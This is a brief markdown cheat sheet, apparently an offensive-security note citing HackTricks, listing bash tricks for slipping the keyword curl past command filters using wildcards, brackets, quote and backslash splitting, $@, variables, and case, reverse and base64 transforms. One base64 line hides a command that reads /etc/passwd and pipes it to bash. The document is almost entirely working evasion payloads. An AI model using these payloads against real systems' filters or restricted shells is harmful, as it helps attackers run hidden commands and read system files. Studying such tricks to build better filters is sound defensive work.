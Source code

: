 
# Command keywords bypass
- Question mark
```
/usr/bin/cur?
```

- Wildcard(*)

```
/usr/bin/c*rl 
```

- [chars] 

```
/usr/bin/cur[l]
```

- Quotes

```
'c'u'r'l
cu''r''''l      #'x2
```

- Backslashes

```
\c\u\r\l
```

- $@

```
cur$@l
```

- variables

```
c$(u)ur${u}l$u
```

- Transformations (case, reverse, base64)

```
$(tr "[A-Z]" "[a-z]"<<<"CuRl") # -> Upper case to lower case
$(a="CuRL";printf %s "${a,,}") # -> transformation (only bash)
$(rev<<<'lruc') 
bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==) #base64
```



## Reference
[bypass-bash-restrictions_HackTricks](https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions)
